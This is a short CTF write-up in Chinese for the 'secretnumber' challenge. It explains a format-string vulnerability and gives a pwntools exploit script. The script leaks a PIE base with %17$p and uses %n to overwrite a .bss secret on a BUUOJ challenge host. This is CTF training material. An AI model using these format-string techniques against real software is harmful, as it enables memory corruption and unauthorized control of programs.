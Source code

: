 # W2 secretnumber

## 文件分析

下载`secretnumber`, 保护全开  
ghidra分析为64位程序

## 逆向

输入1后可以触发格式化字符串漏洞，由于secret数字放在bss上，所以可以先获得地址，
在写入小数字覆盖，然后输入非1数字进入猜数字环节，输入覆盖的数字即可

## EXPLOIT

```python
from pwn import *
sh = remote('node4.buuoj.cn', 29392)

# payload 1
sh.sendline(b'1')
sh.sendlineafter(b'it', b'%17$p') # locate main to get pieBase

sh.recvuntil(b'gift:\n')
pieBase = int(sh.recvline()[:14], 16) - 0x12f5
secretAddr = pieBase + 0x404c

sh.sendline(b'1')
sh.sendlineafter(b'it', b'pad_%9$n' + p64(secretAddr)) # arg8: pad_%9$n, arg9: secretAddr

sh.sendlineafter(b'/1)', b'0')
sh.sendlineafter(b'number', b'4')
sh.interactive()
```

Done.
